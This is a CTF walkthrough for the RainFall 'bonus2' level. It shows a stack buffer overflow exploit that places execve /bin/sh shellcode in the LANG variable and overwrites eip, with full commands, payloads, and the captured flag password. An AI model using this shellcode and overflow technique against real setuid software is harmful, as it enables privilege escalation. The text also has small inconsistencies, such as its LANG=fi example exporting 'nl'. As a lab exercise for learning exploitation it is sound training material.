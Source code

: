 # Bonus2

We can find an executable waiting for two inputs and print them by separating them with a space :
```
bonus2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
bonus2@RainFall:~$ ./bonus2 
bonus2@RainFall:~$ ./bonus2 bla
bonus2@RainFall:~$ ./bonus2 bla bla
Hello bla
bonus2@RainFall:~$
```
After analyze it with gdb we can find three interesting functions : `main()` and `greetuser()`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/bonus0/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/bonus0/source.c) for full explanations.  
So we enter 2 arguments to the program. Then it copies at most 40 bytes of argv[1] in a buffer, and at most 32 bytes of argv[2] in the same buffer at index 40 (so after argv[1]).  
WE can see that the program also checks the LANG env variable and sets a global variable to either 1 if LANG is equal to 'fi' or 2 if LANG is equal to 'nl'.  
Then in greetuser it copies a message (different length depending on the language) in a 72 bytes buffer. And then concatenate to it, our string given as parameter.  
Let's try to get the offset of `eip` with the differents possibles values of LANG with the pattern generator :  
- LANG!=fi && LANG!=nl
```
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()              // offset : ??
```
If we don't set LANG, our global variable is equal to 0. Then, the concatenation of  "Hello " and our string given as parameter is made on our buffer but it's not long enought to overwrite `eip`.  
- LANG=fi
```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ gdb bonus2
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()              // offset : 18
```
- LANG=nl
```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ gdb bonus2
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()              // offset : 23
```
If LANG is either 'fi' or 'nl' and the parameter passed to `greetuser()` is long enough, we can overwrite the return address (`eip`) !  
<br />
<hr />

Lets's build our exploit:
- First, we'll need a [shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php) :  
	"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
- Second, put our shellcode in env variable LANG :  
	export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')  
	*Of course you can tape "nl" or "fi"*  
- Then, create templates for our args :  
	argv[1] : padding (40 bytes)  
	argv[2] : padding (18 or 23 bytes depends of LANG) + address inside `NOP` instructions (4 bytes)
- Determine the address inside `NOP` instructions :  
	Find the start address of LANG with gdb :
	- b *main+125
	- run $(python -c 'print "A"*40') bla
	- x/20s *((char**)environ)  
	Then add random value to reach an address inside `NOP` instructions  

LANG=nl
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
(gdb) b *main+125
(gdb) run $(python -c 'print "A"*40') bla
(gdb) x/20s *((char**)environ)
0xbffffeb4 + 50 (random value) = 0xbffffee6
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xe6\xfe\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
bonus2@RainFall:~$
```
LANG=fi
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
(gdb) b *main+125
(gdb) run $(python -c 'print "A"*40') bla
(gdb) x/20s *((char**)environ)
0xbffffeb4 + 50 (random value) = 0xbffffee6
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xe6\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
bonus2@RainFall:~$ su bonus3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
bonus3@RainFall:~$
```
Bonus2 passed!
